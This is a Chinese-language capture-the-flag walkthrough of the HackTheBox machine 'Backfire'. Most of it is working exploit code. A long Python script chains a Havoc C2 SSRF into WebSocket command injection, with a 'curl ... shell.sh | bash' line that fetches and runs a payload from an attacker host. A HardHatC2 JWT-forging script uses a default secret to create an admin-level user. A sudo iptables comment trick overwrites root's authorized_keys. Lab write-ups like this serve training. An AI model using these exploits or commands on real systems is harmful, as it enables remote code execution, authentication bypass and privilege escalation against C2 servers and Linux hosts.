









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Backfire  
❯ nmap  backfire.htb -sV -Pn -T4  
                                                                                                                                                       
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
443/tcp  open     ssl/http nginx 1.22.1
5000/tcp filtered upnp
8000/tcp open     http     nginx 1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

访问**backfire.htb:8000**可以得到两个文件



**havoc.yaotl**

```
Teamserver {
    Host = "127.0.0.1"
    Port = 40056

    Build {
        Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "ilya" {
        Password = "CobaltStr1keSuckz!"
    }

    user "sergej" {
        Password = "1w4nt2sw1tch2h4rdh4tc2"
    }
}

Demon {
    Sleep = 2
    Jitter = 15

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\notepad.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
    }
}

Listeners {
    Http {
        Name = "Demon Listener"
        Hosts = [
            "backfire.htb"
        ]
        HostBind = "127.0.0.1" 
        PortBind = 8443
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```

**disable\_tls.patch**

```
Disable TLS for Websocket management port 40056, so I can prove that
sergej is not doing any work
Management port only allows local connections (we use ssh forwarding) so 
this will not compromize our teamserver

diff --git a/client/src/Havoc/Connector.cc b/client/src/Havoc/Connector.cc
index abdf1b5..6be76fb 100644
--- a/client/src/Havoc/Connector.cc
+++ b/client/src/Havoc/Connector.cc
@@ -8,12 +8,11 @@ Connector::Connector( Util::ConnectionInfo* ConnectionInfo )
 {
     Teamserver   = ConnectionInfo;
     Socket       = new QWebSocket();
- auto Server  = "wss://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
+    auto Server  = "ws://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
     auto SslConf = Socket->sslConfiguration();
 
     /* ignore annoying SSL errors */
     SslConf.setPeerVerifyMode( QSslSocket::VerifyNone );
- Socket->setSslConfiguration( SslConf );
     Socket->ignoreSslErrors();
 
     QObject::connect( Socket, &QWebSocket::binaryMessageReceived, this, [&]( const QByteArray& Message )
diff --git a/teamserver/cmd/server/teamserver.go b/teamserver/cmd/server/teamserver.go
index 9d1c21f..59d350d 100644
--- a/teamserver/cmd/server/teamserver.go
+++ b/teamserver/cmd/server/teamserver.go
@@ -151,7 +151,7 @@ func (t *Teamserver) Start() {
 		}
 
 		// start the teamserver
-		if err = t.Server.Engine.RunTLS(Host+":"+Port, certPath, keyPath); err != nil {
+		if err = t.Server.Engine.Run(Host+":"+Port); err != nil {
 			logger.Error("Failed to start websocket: " + err.Error())
 		}
 
```

看起来是开了一个**Havoc**服务端：[HavocFramework/Havoc: The Havoc Framework](https://github.com/HavocFramework/Havoc)

并且暴露出了连接的用户名和密码，不过我安装好**Havoc**后并不能连接成功

## Havoc RCE

经过搜索我发现了一个可能存在的**CVE**漏洞



\[github author="chebuya" project="Havoc-C2-SSRF-poc"\]\[/github\]

以及这个

\[github author="IncludeSecurity" project="c2-vulnerabilities"\]\[/github\]

第一个脚本的主要功能

1. **伪造 agent 注册**：通过发送伪造的 agent 注册请求，触发目标服务器执行一些操作（如打开套接字）。

3. **打开套接字**：通过特定的命令控制目标服务器打开套接字，允许远程连接。

5. **写数据到套接字**：向服务器开放的套接字写入数据，可以用于进一步的请求。

7. **读取套接字数据**：读取目标服务器响应的数据，获取敏感信息（例如 IP 地址）。

第二个脚本的主要功能

1. **WebSocket 连接**：通过 WebSocket（加密的 `wss://`）与远程团队服务器建立连接。

3. **身份验证**：使用用户名和 SHA3-256 加密的密码进行身份验证。

5. **监听器创建**：向服务器发送请求创建一个监听器，用于构建 "demon agent"。

7. **远程命令执行**：通过命令注入漏洞，向服务器发送恶意载荷来执行本地命令（RCE）。

因此可以考虑的是，将两个脚本结合起来，在注册完**register**后使用**websocket**命令注入，由于两个脚本的通信协议是不同的，因此需要将**HTTP**协议注册后升级为**Websocket**协议

升级协议的报头类似于这样

```
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
Sec-WebSocket-Protocol: chat, superchat
Sec-WebSocket-Version: 13
```

将升级协议的数据通过套接字发送到服务器

由于使用的是**Websocket**通信，那么对应的数据也要转换为**Websocket**的格式，这在**python**自带的库中是封装好的，但是这里是从**HTTP**转换的，因此需要手动转换数据为**Websocket**数据帧

最终的代码如下

```
import binascii
import json
import random
import requests
import argparse
import urllib3
import os
import hashlib
urllib3.disable_warnings()

from Crypto.Cipher import AES
from Crypto.Util import Counter

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext

def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)

def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")

def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"

    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")

def write_socket(socket_id, data):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")

def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""

    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]

def create_websocket_request(host, port):
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request

def build_websocket_frame(payload):
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)
    payload_length = len(payload_bytes)
    if payload_length <= 125:
        frame.append(0x80 | payload_length)
    elif payload_length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(payload_length.to_bytes(2, byteorder="big"))
    else:
        frame.append(0x80 | 127)
        frame.extend(payload_length.to_bytes(8, byteorder="big"))

    masking_key = os.urandom(4)
    frame.extend(masking_key)
    masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
    frame.extend(masked_payload)

    return frame

parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

HOSTNAME = "127.0.0.1"
PORT = 40056
USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

#upgrade http to websocet  so that we can use the second script
write_socket(socket_id,create_websocket_request(host=HOSTNAME, port=PORT))

# Authenticate to teamserver
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))

# Create a listener to build demon agent for
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))

# Create a psuedo shell with RCE loop   Change Here
cmd = 'curl http://10.10.xx.xx/shell.sh | bash'

injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
# Command injection in demon compilation command
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
    "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}

payload_json=json.dumps(payload)
write_socket(socket_id, build_websocket_frame(payload_json))
```

然后设置监听，获取到了反弹**Shell**，并且拿到**user.txt**



## Root

由于这个反弹Shell会在一段时间后断掉，因此需要找到一个方式进行**持久化连接**

把本地的**ssh**公钥追加到**ilya**的密钥文件中

```
#in reverse shell 

echo "your key" >> ~/.ssh/authorized_keys
```



```
ilya@backfire:~$ cat hardhat.txt 
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```

查看内网端口情况



搜索这个**HardHatC2**的相关漏洞，我找到了这个👇

- [HardHatC2 0-Days (RCE & AuthN Bypass) | by Pichaya Morimoto | Jan, 2025 | สยามถนัดแฮก](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

首先需要将内网的**7096**端口和**5000**端口通过**SSH**代理出来

```
[root@kali] /home/kali/Backfire  
❯ ssh -i ~/.ssh/id_rsa ilya@backfire.htb -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000
```

然后运行

```
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```



运行之后可以看到用户被创建成功了，随后访问**https://127.0.0.1:7096/**，使用用户名和密码进行登录

来到模拟终端进行命令执行

用相同的方式把自己的**ssh**密钥追加到**sergej**的密钥中



然后使用**ssh**登录**sergej**，查看**sudo**权限命令



搜索**iptables**相关的提权操作

- [Shielder - A Journey From <code>sudo iptables</code> To Local Privilege Escalation](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)

- [利用iptables提权 | CN-SEC 中文网](https://cn-sec.com/archives/3193918.html)

其中的注释功能用来覆盖其他文件，因此可以考虑覆盖掉一些敏感文件，尤其是可以伪造**root**身份的

```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nYourKeysHere\n'
```

经过测试这个**comment**的长度不能太长，因此**ssh**的密钥长度要相对短一点

```
[root@kali] /home/kali/Backfire  
❯ ssh-keygen -t ed25519
```

然后进行覆盖**root**的密钥文件

```
sergej@backfire:~$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n your_ed25519_pub_keys\n'

sergej@backfire:~$ sudo /usr/sbin/iptables -S

sergej@backfire:~$ sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```



## Summary

`User`：通过**Havoc**的**SSRF**连接到内网端口，由于触发**RCE**的协议是**Websocket**，所以需要在伪造**agent**之后就要将协议转换为**Websocket**。将两个脚本进行融合，拿到**User.txt**，并且写入**ssh**密钥进行持久化连接。

`Root`：内网端口代理出来后，发现存在绕过身份认证进行命令执行的漏洞，同样写入**ssh**密钥进行连接，发现存在**iptables**特殊权限命令，可以将任意文件进行覆盖，最后通过写入**ssh**密钥进行连接得到**root.txt**。
